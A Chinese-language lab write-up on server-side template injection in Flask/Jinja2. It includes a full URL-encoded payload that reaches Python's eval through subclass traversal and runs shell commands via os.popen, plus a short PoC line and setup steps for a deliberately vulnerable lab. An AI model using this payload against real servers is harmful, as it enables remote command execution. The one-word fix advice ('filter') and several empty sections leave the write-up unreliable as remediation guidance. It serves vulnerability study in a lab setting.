




# <center>Flask(Jinja2)服务端模板注入漏洞</center> #

<center></center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 不安全的模板嵌入允许用户输入模板代码导致模板注入。
* 影响版本：

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;flask是一个python-web开发框架

&emsp;&emsp;该漏洞主要的产生原因是模板引用不当。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先我们看一下如何利用这个漏洞，打开ip:port  

<center></center>


&emsp;&emsp;访问`http://ip:port/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`。  

<center></center>


将上面id位置改成你要执行的linux命令，`ls`：

<center></center>


### 源码解析
获取eval函数并执行任意python代码的POC:

```python



  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  



```


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统[github](https://github.com/havysec/vulnerable-scene)  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装jinja2==2.9.6、flask==0.12.1环境，然后将源码导入到/app文件夹下。
* python app.py运行脚本即可。


### 4.3&emsp;漏洞复现 ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;过滤  
